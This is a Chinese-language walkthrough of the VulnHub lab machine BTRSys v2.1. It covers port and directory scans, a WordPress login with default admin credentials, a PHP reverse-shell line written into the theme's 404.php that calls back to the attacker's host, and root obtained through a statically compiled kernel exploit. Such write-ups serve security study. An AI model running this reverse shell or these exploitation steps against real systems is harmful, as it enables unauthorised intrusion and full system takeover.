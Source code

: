 # BTRSys: v2.1

2024-5-22 https://www.vulnhub.com/entry/btrsys-v21,196/

difficulty: Beginner / Intermediate

## IP

192.168.10.183

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.10.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 08eee3ff3120876c12e71caac4e754f2 (RSA)
|   256 ade11c7de78676be9aa8bdb968927787 (ECDSA)
|_  256 0ce1eb060c5cb5cc1bd1fa5606223167 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

21 ftp 允许匿名登陆，但是里面没信息。

22 ssh banner 也没显示出什么信息。

只有看 80 端口了，http://192.168.10.183/ 首页是个动图，源代码没信息，使用 gobuster 进行扫描：

```
gobuster -t 64 dir -u http://192.168.10.183/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e

http://192.168.10.183/index.html           (Status: 200) [Size: 81]
http://192.168.10.183/upload               (Status: 301) [Size: 317] [--> http://192.168.10.183/upload/]
http://192.168.10.183/wordpress            (Status: 301) [Size: 320] [--> http://192.168.10.183/wordpress/]
http://192.168.10.183/javascript           (Status: 301) [Size: 321] [--> http://192.168.10.183/javascript/]
http://192.168.10.183/robots.txt           (Status: 200) [Size: 1451]
```

http://192.168.10.183/upload/ 页面显示报错：

```
Connection failed: SQLSTATE[HY000] [1049] Unknown database 'Lepton'
```

http://192.168.10.183/robots.txt 内容：

```
Disallow: Hackers
Allow: /wordpress/
```

重点估计就是 /wordpress/ 目录，继续用 gobuster 对目录进行扫描：

```
gobuster -t 64 dir -u http://192.168.10.183/wordpress/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e
```

没发现什么非 wp 目录，使用 wpscan 进行扫描：

```
wpscan --url http://192.168.10.183/wordpress/ -e
```

搜集到了 2 个用户:btrisk、admin

尝试使用弱密码登陆，结果 admin 的密码是 admin。

theme 不能上传，文件夹写不了，只好修改 404.php 页面，写入反弹的 shell：

```
http://192.168.10.183/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentyfourteen

$sock=fsockopen("192.168.10.3",8888);exec("/bin/bash <&3 >&3 2>&3");
```

kali 上监听 8888 端口，访问下面页面激活 404.php 进行反弹 shell：

```
curl http://192.168.10.183/wordpress/wp-content/themes/twentyfourteen/404.php
```

得到反弹 shell 后，进入 wordpress 目录，查找数据库配置信息：

```
define('DB_USER', 'root');
define('DB_PASSWORD', 'rootpassword!');
define('DB_HOST', 'localhost');
```

/home 目录中有一个 btrisk 用户，看看这个密码是不是这个用户的，su btrisk 输入 config 中配置的密码，不对。

经过其他枚举，sudo、suid、cap、crontab 等等都没找到提权到 btrisk 或者 root 的方法。

看看内核是否有漏洞吧，uname -a Linux ubuntu 4.4.0-62，searchsploit 后找到一个：

```
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation   | linux/local/44298.c
```

由于目标机器上没有 gcc 编译器，我们需要在 kali 上 c 源码编译好后，将可执行程序下载到目标机器，而且不能使用动态编译，目标机器运行时会提示

```
/lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found
```

需要使用静态编译：

```
gcc 44298.c -o exp -static
```

目标机器执行 exp 后就得到了 root 权限：

```
www-data@ubuntu:/tmp$ chmod +x exp
chmod +x exp1
www-data@ubuntu:/tmp$ ./exp
./exp
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
cd /root
ls -al
total 32
drwx------  4 root root 4096 Apr 28  2017 .
drwxr-xr-x 22 root root 4096 Mar 17  2017 ..
-rw-------  1 root root  505 May  2  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Apr 28  2017 .cache
-rw-------  1 root root  215 Apr 27  2017 .mysql_history
drwxr-xr-x  2 root root 4096 Mar 21  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
```
